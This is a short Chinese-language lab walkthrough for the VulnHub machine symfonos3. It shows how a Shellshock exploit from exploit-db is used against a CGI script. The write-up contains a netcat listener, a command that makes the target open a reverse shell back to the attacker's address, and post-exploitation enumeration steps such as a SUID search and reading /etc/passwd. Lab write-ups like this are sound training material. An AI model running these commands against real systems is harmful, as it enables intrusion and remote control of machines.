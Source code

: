 
# 中期-漏洞利用

看上去就像 `uptime` 的输出,查了下,应该是 shellshock 漏洞
```bash
searchsploit -w shellshock
```

找个 https://www.exploit-db.com/exploits/34766 测试下

kali 监听
```bash
nc -lvp 4444
```

执行命令,回弹 shell
```bash
wget https://www.exploit-db.com/download/34766
mv 34766 34766.php
php 34766.php -u http://192.168.141.150/cgi-bin/underworld -c "nc -e /bin/bash 192.168.141.134 4444"
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos3/20.png)

下面尝试提权

---

# 后期-水平提权

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
cat /etc/passwd
```
